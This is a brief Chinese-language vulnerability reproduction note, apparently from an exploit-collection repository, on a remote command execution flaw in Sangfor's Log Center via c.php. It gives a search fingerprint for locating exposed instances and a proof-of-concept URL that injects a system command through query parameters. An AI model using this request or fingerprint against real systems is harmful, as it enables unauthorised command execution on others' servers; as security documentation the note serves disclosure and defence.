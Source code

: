 # 深信服 日志中心 c.php 远程命令执行漏洞

# 深信服 日志中心 c.php 远程命令执行漏洞

## 漏洞描述

深信服 日志中心 c.php  远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

```
深信服 日志中心
```

## 网络测绘

```
body="isHighPerformance : !!SFIsHighPerformance,"
```

## 漏洞复现

登录页面如下



![](/images/202202091915868.png)



访问漏洞Url



```plain
/tool/log/c.php?strip_slashes=system&host=ipconfig
```



![](/images/202202091915736.png)

